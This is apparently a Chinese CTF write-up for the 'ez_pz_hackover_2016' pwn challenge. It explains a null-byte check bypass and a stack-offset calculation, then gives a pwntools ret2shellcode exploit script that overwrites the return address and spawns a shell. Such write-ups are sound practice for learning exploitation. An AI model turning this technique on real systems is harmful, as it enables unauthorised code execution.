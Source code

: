 ```yaml
---
title: 'ez_pz_hackover_2016'
date: 2023-12-30 13:00:00 +0800
categories: [ctf,pwn]
tags: [control,ret2shellcode]
---
```

```shell
bamuwe@qianenzhao:~$ checksec ez_pz_hackover_2016
[*] '/home/bamuwe/ez_pz_hackover_2016'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

![image-20231230200735028](../assets/img/old_imgs/image-20231230200735028.png)

![image-20231230200746307](../assets/img/old_imgs/image-20231230200746307.png)

- 逻辑绕过
- `\x00`阶段
- 动态调试计算栈空间
- `ret2shellcode`

1. 栈保护全关,考虑`ret2shellcode`
2. 通过`\x00`绕过前置验证,进入`vuln`函数
3. `vuln`函数中,会把`&src`赋值给`dest`这其中存在漏洞

正常思路这里就可以构造`payload`了,但是这里`ida`分析出来的`dest`栈空间为`0x32`与实际不符合,我们需要动态调试手动查看栈空间

![image-20231230201124555](../assets/img/old_imgs/image-20231230201124555.png)

> 停在`nop`处查看栈

![image-20231230201222685](../assets/img/old_imgs/image-20231230201222685.png)

![image-20231230201722354](../assets/img/old_imgs/image-20231230201722354.png)

> 手动查找得到栈实际空间为`0x1a`

> distance计算栈之间的距离

```python
from pwn import *
context.log_level = 'debug'
#io = process('./ez_pz_hackover_2016')
io = gdb.debug('./ez_pz_hackover_2016','break vuln')
elf = ELF('./ez_pz_hackover_2016')
io.recvuntil(b'Yippie, lets crash: ')
s_addr = int(io.recv(10),16)
print('s_addr',hex(s_addr))
payload1 = b'crashme\x00'
payload1 = payload1.ljust(0x1a,b'A')
payload1 += p32(s_addr-0x1c)+asm(shellcraft.sh())
io.sendlineafter('> ',payload1)
io.interactive()
```

`s`栈上的空间写不下`shellcode`所以直接把`shellcode`写在`ret`地址之后.

> ?这里的`s_addr`为什么要`-0x1c`还不了解,偏移后的位置正好是一个输入的栈的起始但为什么是这个值还不清楚.

这道题应该也可以通过泄露Libc的方式做,但是没有成功

```python
```
